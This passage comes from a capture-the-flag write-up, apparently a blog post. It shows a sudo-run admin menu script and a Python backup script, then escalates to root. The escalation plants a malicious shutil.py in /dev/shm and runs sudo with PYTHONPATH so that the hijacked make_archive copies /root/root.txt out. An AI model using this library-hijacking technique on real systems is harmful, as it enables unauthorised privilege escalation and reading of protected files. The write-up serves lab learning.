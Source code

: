          "Backup shadow file"
         "Backup web data"
         "Backup DB"
         "Quit")

echo
echo "[[[ System Administration Menu ]]]"
PS3="Choose an option: "
COLUMNS=11
select opt in "${options[@]}"; do
    case $REPLY in
        1) view_uptime ; break ;;
        2) view_users ; break ;;
        3) view_crontab ; break ;;
        4) backup_passwd ; break ;;
        5) backup_shadow ; break ;;
        6) backup_web ; break ;;
        7) backup_db ; break ;;
        8) echo "Bye!" ; break ;;

        *) echo "Unknown option." >&2
    esac
done

exit 0
{% endhighlight %}

In `backup_web` function the script is calling a python script `/opt/scripts/backup.py`:

{% highlight python %}
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
{% endhighlight %}

## Root

Due to the `SETENV` misconfiguration in `sudo`, we can hijack `shutil` Python's library and create a malicious function called `make_archive`:

{% highlight bash %}
$ printf "def make_archive(a, b, c):\n\twith open('/root/root.txt', 'r') as rootPass:\n\t\twith open('/dev/shm/.solve', 'w') as solution:\n\t\t\tsolution.write(rootPass.read())\n" > /dev/shm/shutil.py

$ cat /dev/shm/shutil.py
def make_archive(a, b, c):
        with open('/root/root.txt', 'r') as rootPass:
                with open('/dev/shm/.solve', 'w') as solution:
                        solution.write(rootPass.read())

$ sudo PYTHONPATH=/dev/shm/ /opt/scripts/admin_tasks.sh

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file